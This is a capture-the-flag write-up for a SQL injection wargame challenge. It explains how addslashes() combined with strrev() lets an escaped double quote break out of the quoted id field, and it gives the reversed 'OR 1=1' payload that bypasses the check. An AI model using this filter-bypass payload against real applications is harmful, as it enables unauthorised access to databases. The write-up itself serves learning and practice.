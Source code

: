 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 17
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/283aa376-d15c-49ea-92d5-30ce164ce2d7)

We are provided with the SQL query:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

This challenge use the `addslashes()` function to add a (`\`) before every input quote. It then reverses the string using the `strrev()`s function.

If we provide the following URI parameter:

```
?id="
```

The resultant query becomes:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='"\' AND pw=''
```

Our input double-quote (`"`) is escaped (`\"`) and then the entire character sequence is reversed (`"\`).
This causes the original closing single-quote to be escaped (`"\'`) and the `"\' AND pw=` part is treated as a string.

We can now provide the following URI parameter:

```
?id="&pw=- -- 1=1 RO 
```

The resultant query becomes:

```sql
SELECT id FROM prob_zombie_assassin WHERE id='"\' AND pw=' OR 1=1 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/6216a823-f0ba-4fd3-90ed-88b30bd5e938)
